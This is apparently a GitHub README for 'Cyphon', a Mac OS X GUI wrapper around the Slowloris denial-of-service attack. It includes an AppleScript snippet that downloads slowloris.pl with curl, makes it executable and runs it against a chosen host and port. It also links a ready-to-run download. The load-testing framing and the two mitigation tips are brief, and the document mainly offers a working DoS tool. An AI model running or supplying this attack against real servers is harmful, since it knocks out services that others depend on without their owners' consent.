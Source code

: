 # Cyphon

A simple yet powerful Low Bandwidth DoS (Denial of Service) tool written for Mac OS X (Friendly GUI) based on RSnake's Slow Loris.

You can use this tool to test for DoS vulnerabilities on your server or to experiment it's potential. 

# Built with
* Xcode - Cocoa, Applescript

# Code Example
```AppleScript
 do script "mkdir -p ~/Source && cd ~/Source/"
            do script "curl -O https://raw.githubusercontent.com/abila5h/Cyphon-DoS/master/slowloris.pl" in window 1
            do script "chmod +x slowloris.pl" in window 1
            do script "./slowloris.pl -dns  " & currentTextFieldText & " -port "  & portFieldText &  " -timeout " &timeoutFieldText & " -num "& packetFieldText in window 1
```


# Motivation

I decided to code an executable OSX version for Mac OS users as there are little server load testers out there for Mac OS.

SlowLoris seemed to be the best solution for a Mac DoS tool due to its ability of being a low bandwidth yet poisonous HTTP client by using a single IP address to send several partial HTTP requests.

[Wikipedia](https://en.wikipedia.org/wiki/Slowloris_(computer_security))

# Screenshots
![1](http://i.imgur.com/gIIcJnY.png)
![2](http://i.imgur.com/43L87Gw.png)
![3](http://i.imgur.com/km4R9V7.png)

# Download and demonstration

[Download](https://github.com/abila5h/Cyphon-DoS/blob/master/Cyphon.zip?raw=true) - Hold down the Control key when launching the Application.

[Youtube Video](https://www.youtube.com/watch?v=YRSbwgVHxxc&feature=youtu.be)


# Mitigating the attacks 

* Use DDoS mitigation services 

     [Project Shield](https://projectshield.withgoogle.com/public/) - Google's Free DDoS mitigation Service

* Increase the number of clients your server can host.

# Contributors 
* [Abilash](http://abilashmenon.com)
* [RSnake](http://twitter.com/RSnake)
